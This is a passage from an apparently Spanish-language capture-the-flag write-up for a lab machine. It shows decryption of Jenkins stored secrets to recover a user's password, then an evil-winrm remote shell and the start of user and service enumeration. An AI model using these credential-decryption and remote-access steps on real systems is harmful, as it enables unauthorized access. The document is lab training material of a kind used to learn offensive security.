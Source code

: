 ~~~bash
python decrypt.py master.key hudson.util.Secret config.xml
c1cdfun_d2434
~~~

## Getting a shell

Ahora con las credenciales del usuario oliver podemos usar el servicio WinRM

- User: oliver
- Password: c1cdfun_d2434

~~~ bash
evil-winrm -i 10.129.90.135 -u oliver -p c1cdfun_d2434

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
*Evil-WinRM* PS C:\Users\oliver\Documents> 

~~~

## System Enumeration

Usuarios del sistema

~~~ bash
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/10/2021   3:20 AM                Administrator
d-----       10/26/2021   7:59 AM                maria
d-----       10/26/2021   7:58 AM                oliver
d-r---        4/10/2020  10:49 AM                Public
d-----       10/21/2021   3:44 AM                smith

~~~

Servicios que esten a la esucha en algun puerto
